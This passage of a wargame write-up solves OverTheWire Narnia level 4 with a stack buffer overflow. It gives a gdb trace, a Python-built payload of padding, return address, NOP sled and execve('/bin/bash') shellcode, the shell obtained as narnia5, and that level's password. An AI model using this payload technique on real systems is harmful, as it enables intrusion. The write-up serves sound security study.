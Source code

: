 Expectedly, using this same methodology on the target machine results in successful exploitation\:

{% highlight bash %}
(gdb) r $(python -c "print 'A'*264 +'B'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x8  
9\\xe1\\xcd\\x80'")                                                                                                                                                              
Starting program\: /narnia/narnia4 $(python -c "print 'A'*264 +'B'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\  
x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")  
  
Program received signal SIGSEGV, Segmentation fault.  
0x42424242 in ?? ()  
(gdb) x/100x $esp-200  
0xffffd378\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd388\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd398\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3a8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3b8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3c8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3d8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3e8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3f8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd408\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd418\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd428\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd438\:     0x41414141      0x42424242      0x90909090      0x90909090  
0xffffd448\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd458\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd468\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd478\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd488\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd498\:     0x90909090      0x90909090      0x90909090      0x99580b6a  
0xffffd4a8\:     0x2d686652      0x52e18970      0x2f68686a      0x68736162  
0xffffd4b8\:     0x6e69622f      0x5152e389      0xcde18953      0xf7fe0080  
0xffffd4c8\:     0xffffd4cc      0xf7ffd920      0x00000002      0xffffd626
{% endhighlight %}

Seeing as the NOP sled begins at 0xffffd440, and the shellcode begins at 0xffffd4a4, any address within the bounds of these two addresses will result in the execution of the shellcode. Using the same payload as the one on the attack box with the modification of the address surprisingly results in a “Segmentation fault”.

narnia4@narnia\:/narnia$ ./narnia4 $(python -c "print 'A'*264+'\\x58\\xd4\\xff\\xff'*4+'\\x9  
0'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x  
68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")  
Segmentation fault

This was the same problem that occurred in Narnia 2. Just as we did in Narnia 2, tweaking the return address by slightly incrementing it results in the successful execution of the shellcode\:

{% highlight bash %}
narnia4@narnia\:/narnia$ ./narnia4 $(python -c "print 'A'*264  +'\\x90\\xd4\\xff\\xff'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\  
x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")  
bash-4.4$ whoami  
narnia5  
bash-4.4$ cat /etc/narnia_pass/narnia5  
faimahchiy
{% endhighlight %}
